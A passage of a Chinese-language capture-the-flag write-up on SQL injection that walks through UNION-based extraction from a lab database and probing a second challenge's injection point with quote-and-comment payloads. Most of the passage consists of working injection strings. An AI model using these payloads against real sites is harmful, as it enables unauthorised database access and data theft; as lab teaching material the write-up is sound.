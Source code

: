 #### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=1 ORDER BY 3 %23  # 页面正常，显示第一条数据
?id=1 ORDER BY 4 %23  # 页面报错，确定列数为3列

联合查询注入
?id=0 UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据

查询当前数据库版本和数据库名
?id=0 UNION SELECT 1,version(),database() %23    # 页面回显数据

查询当前数据库下的所有表名
?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_hahah' %23

查询该表中所有的列名
?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='fllllaaaggg' %23

查询实际数据
?id=0 UNION SELECT 1,2,group_concat(f4ag) FROM fllllaaaggg %23

```

<br>
### guess2

#### 确定注入点
直接开始测试
```sql
?id=2-1   #页面回显ID=2的数据，显然不是数字型。至于为什么是第二条数据，可以google MYSQL隐式转换
?id=0' or 1=1 %23   #' 页面回显第一条数据，说明注入成功
?id=0' or 2=1 %23   #' 页面没有回显数据，说明注入成功
如果说这样就确定是字符型的话，还不够严谨，如果有ID=10的数据存在，那么 ?id=0' or 2=1 %23  搜索型有可能会回显ID=10的数据的。'
并且搜索型可能是 LIKE '%aaa'  或者 LIKE 'aaa%'  

在这个环境中，不过也没必要非要探究到底是搜索型还是字符型
因为你已经将后面的注释了，也就是说前面只要返回FALSE，后面的语句都可执行。只要没有过滤的话。

不过我们还是能用实践来证明出其他的一些东西
?id=1' %23  #页面回显ID=1的数据'，说明前面不可能带有%号通配符，如果有，不可能返回是ID=1的数据。

说明前面必定没有带有%符，SQL语句可能是
SELECT  * FROM users WHERE id LIKE 'aaa%'
SELECT  * FROM users WHERE id = 'aaa'

总之，其实这不是很好区别，但是我们的探究点不再这，SQL语句千奇百怪。
```
好的，可以直接开始得到数据的流程了

